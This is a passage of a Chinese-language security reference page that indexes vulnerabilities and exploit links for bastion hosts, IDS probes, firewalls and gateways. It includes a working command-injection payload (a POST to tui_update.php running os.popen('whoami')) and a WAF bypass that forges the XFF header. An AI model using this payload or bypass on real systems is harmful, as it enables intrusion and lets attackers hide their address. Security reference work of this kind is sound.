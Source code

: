 - **CNVD-2019-17294 齐治堡垒机后台存在命令执行漏洞**
    - [齐治堡垒机后台存在命令执行漏洞（CNVD-2019-17294）分析](https://www.cnblogs.com/StudyCat/p/11197986.html)

- **远程代码执行**
    - POC | Payload | exp
        ```
        POST /shterm/listener/tui_update.php

        a=["t';import os;os.popen('whoami')#"]
        ```

---

# 网络检测与响应

## IDS

**文章**
- [IDS逃避技术和对策](https://www.oschina.net/question/12_6140)
- [网络层绕过IDS/IPS的一些探索](https://security.tencent.com/index.php/blog/msg/147)

**绿盟 UTS 综合威胁探针**
- **管理员任意登录**
    - POC | Payload | exp
        - [绿盟UTS综合威胁探针管理员任意登录](https://www.hedysx.com/2612.html)
        - [【干货】绿盟UTS综合威胁探针管理员任意登录](https://www.hackbug.net/archives/112.html)

---

## 防火墙

**Cisco ASA**
- **CVE-2018-0296 Cisco ASA Directory Traversal**
    - POC | Payload | exp
        - [yassineaboukir/CVE-2018-0296](https://github.com/yassineaboukir/CVE-2018-0296)

**Sophos XG**
- **CVE-2020-12271 && CVE-2020-15504**
    - 相关文章
        - [Sophos XG - A Tale of the Unfortunate Re-engineering of an N-Day and the Lucky Find of a 0-Day](https://codewhitesec.blogspot.com/2020/07/sophos-xg-tale-of-unfortunate-re.html)

**绿盟 waf 封禁绕过s**
- XFF伪造字段地址为127.0.0.1，导致waf上看不见攻击者地址

---

## 网关

**上海格尔安全认证网关管理系统**
- [上海格尔安全认证网关管理系统命令执行漏洞大礼包](https://php.mengsec.com/bugs/wooyun-2016-0170003.html)
- [上海格尔软件安全认证网关命令执行漏洞（无需登录）](https://php.mengsec.com/bugs/wooyun-2016-0169715.html)
- [上海格尔软件安全认证网关命令执行漏洞（可批量getshell）](https://php.mengsec.com/bugs/wooyun-2016-0170010.html)

---